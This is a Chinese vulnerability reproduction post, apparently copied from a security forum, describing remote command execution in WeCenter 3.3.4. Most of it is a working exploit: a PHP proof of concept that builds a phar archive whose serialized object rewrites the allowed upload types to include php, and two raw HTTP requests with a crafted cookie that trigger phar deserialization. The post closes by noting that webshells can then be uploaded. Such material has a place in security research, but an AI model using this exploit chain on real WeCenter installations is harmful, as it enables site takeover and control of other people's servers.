 # WeCenter 3.3.4 远程命令执行

> 原文：[https://www.zhihuifly.com/t/topic/3237](https://www.zhihuifly.com/t/topic/3237)

# WeCenter 3.3.4 远程命令执行

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 远程命令执行

**WeCenter** 后台的 **允许的附件文件类型** 处，设置了用户可上传的文件类型后缀。而这个配置是写在数据库中的，我们可以利用前面的任意 **SQL** 语句执行的 **POP** 链，往字段中添加 **php** 文件后缀。

![image](img/fb5ef5bb78f171641a3ba8e9777b23c5.png)

### poc

```
<?php
class AWS_MODEL
{
    private $_shutdown_query = array();

```
public function __construct($_shutdown_query)
{
    $this-&gt;_shutdown_query = $_shutdown_query;
} 
```

} `$sql = array(‘update aws_system_setting set value=‘s:45:“jpg,jpeg,png,gif,zip,doc,docx,rar,pdf,psd,php”;’ where varname=‘allowed_upload_types’’);

$evilobj = new AWS_MODEL($sql);

// phar.readonly无法通过该语句进行设置: init_set(“phar.readonly”,0);

$filename = ‘poc.phar’;// 后缀必须为phar，否则程序无法运行

file_exists($filename) ? unlink($filename) : null;

$phar=new Phar($filename);

$phar->startBuffering();

$phar->setStub(“GIF89a<?php __HALT_COMPILER(); ?>”);

$phar->setMetadata($evilobj);

$phar->addFromString(“foo.txt”,“bar”);

$phar->stopBuffering();

?>` 
```

### 利用

这里以 **RCE** 利用为例子。我们先用上面的 **EXP** 生成文件，然后找个可以上传文件的地方。这里要注意，一定不要选择在用户头像处上传。这里我们通过发起问题的地方来上传文件。

![image](img/5542c4ea04a0d5a3423357a84abedbd1.png)

通过如下数据包，将 **headimgurl** 插入数据库中（ **Cookie** 前缀每个网站都不一样，修改成自己的即可）。

```
GET /wecenter334/?/m/weixin/binding/ HTTP/1.1
Host: 0.0.0.0
Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=akl7d5skae6ebea69bp8r1b4f0; CNZZDATA1273638993=564846603-1579067041-%7C1579097763; xhj__user_login=NcIFvaZbkaxoQfofEGo%2FSOCyrXq5R0lZofmF9uqaJHO5tpVyag7GEP3fdh9hKvPUf8Xj4x3kkxgLXcf1L4wocSQu9BUquhozfdiEN2Hfg8vj73XVn1f09yLfbpfbVs7K; xhj__WXConnect={"access_token":{"openid":1},"access_user":{"headimgurl":"phar:\/\/uploads\/question\/20200116\/f39510a7e8e47e3e4dcabbadeedd12f7.gif","nickname":"mochazz"}}
Connection: close
$wx = array(
    'access_token' => array('openid'=>1),
    'access_user'  => array('headimgurl'=>'phar:///uploads/question/20200116/f39510a7e8e47e3e4dcabbadeedd12f7.gif','nickname'=>'mochazz')
);
echo json_encode($wx); 
```

接着通过如下数据包触发 **phar反序列化** 执行 **SQL** 语句。

```
GET /wecenter334/?/account/ajax/synch_img/ HTTP/1.1
Host: 0.0.0.0
Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=qb72k9k1sl53gqibbg53nf32o1; CNZZDATA1273638993=564846603-1579067041-%7C1579137884; xhj__user_login=N9hSYaQOjPMdtxOXo9jQuCVQSykmK88gl3DTI4AmL%2BnhLpgnHFGGSHkzxAPYaVMbXo%2FAndADc%2FaD0wytUEK71YrLmxWCuEZDCSwn9b0ApyOpcIKa6E4cOotHqZpZwVq%2B
Connection: close 
```

现在，我们就可以随意上传 **webshell** 了。

![image](img/76403d258224243ddddc1f8950ac03b6.png)

![image](img/84c10eaf6a8bd73017f67cdb125cac76.png)